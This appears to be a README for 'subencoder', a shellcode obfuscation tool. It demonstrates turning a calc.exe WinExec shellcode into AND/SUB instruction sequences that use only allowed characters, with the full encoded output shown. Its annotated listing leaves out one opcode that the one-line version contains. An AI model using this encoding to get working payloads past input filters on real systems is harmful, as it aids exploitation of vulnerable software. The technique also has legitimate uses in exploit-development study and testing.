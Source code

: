 # subencoder  
subencoder - shellcode obfuscater  
  
Calc.exe Shellcode:  
  
"\x33\xc0".....................XOR EAX,EAX | Zero out EAX register  
"\x50".........................PUSH EAX | Push EAX to have null-byte padding for "calc.exe"  
"\x68\x2E\x65\x78\x65".........PUSH ".exe"  
"\x68\x63\x61\x6C\x63".........PUSH "calc" 
"\x8B\xC4".....................MOV EAX,ESP | Put a pointer to the ASCII string in EAX 
"\x6A\x01".....................PUSH 1 | Push uCmdShow parameter to the stack 
"\x50".........................PUSH EAX | Push the pointer to lpCmdLine to the stack 
"\x85\x6a\xe9\x77".............MOV EBX, 77e96a85 | Move the pointer to WinExec() into EBX 
"\xFF\xD3".....................CALL EBX | Call WinExec()

In one line:  
\x33\xc0\x50\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x8B\xC4\x6A\x01\x50\xBB\x85\x6a\xe9\x77\xFF\xD3  

Group it int groups of 4 bytes  
33c05068  
2E657865  
6863616C  
638BC46A  
0150BB85  
6AE977FF  
D3  

Revert it and 0 pad:  
D3		    -> 000000D3  
6AE977FF  -> FF77E96A  
0150BB85  -> 8BBB5001  
638BC46A  -> 6AC48B63  
6863616C  -> 6C616368  
2E657865  -> 6578652E  
33c05068  -> 6850C033  
  
ShellCode 4 byte reversed in one line:  
000000D3FF77E96A8BBB50016AC48B636C6163686578652E6850C033  
  
Allowed Char File (2-digit hex):  
02030405060708090b0c0e0f101112131415161718191a1b1c1d1e1f202122232425262728292a2b2c2d2e303132333435363738393b3c3d3e4142434445464748494a4b4c4d4e4f505152535455565758595a5b5c5d5e5f606162636465666768696a6b6c6d6e6f707172737475767778797a7b7c7d7e7f  

Generate shellcode:  
$ ./subencoder shellcode.txt allowedchars.txt  
Address: 0x000000D3  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x74747414  
SUB EAX, 0x75757503  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50  

Address: 0xFF77E96A  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x04040404  
SUB EAX, 0x7e280428  
SUB EAX, 0x7e5c0e6a  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50  

Address: 0x8BBB5001  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x48747474  
SUB EAX, 0x0f740f74  
SUB EAX, 0x1c5c2c17  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50  
  
Address: 0x6AC48B63  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x3e0e3e3e  
SUB EAX, 0x572d365f  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50  

Address: 0x6C616368  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x31313131  
SUB EAX, 0x626d6b67  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50  

Address: 0x6578652E  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x2d2d2d79  
SUB EAX, 0x6d5a6d59  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50  

Address: 0x6850C033  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x204b206f  
SUB EAX, 0x77641f5e  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50  

$ cat output.txt  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50  


